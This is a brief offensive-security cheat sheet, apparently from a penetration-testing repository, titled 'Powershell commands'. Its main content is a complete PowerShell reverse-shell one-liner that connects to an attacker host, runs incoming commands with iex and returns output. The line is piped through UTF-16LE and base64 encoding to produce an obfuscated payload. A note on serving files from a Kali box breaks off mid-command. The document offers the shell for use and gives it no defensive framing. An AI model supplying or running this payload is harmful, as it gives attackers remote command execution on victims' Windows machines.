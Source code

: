 # Powershell commands


**Transfering files to a windows machine with powershell**

Start a python http server on you kali box

python3 -m 


*encoded powershell command via kali*

echo '$client = New-Object System.Net.Sockets.TCPClient("ip addr",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv --to-code UTF-16LE | base64 -w 0
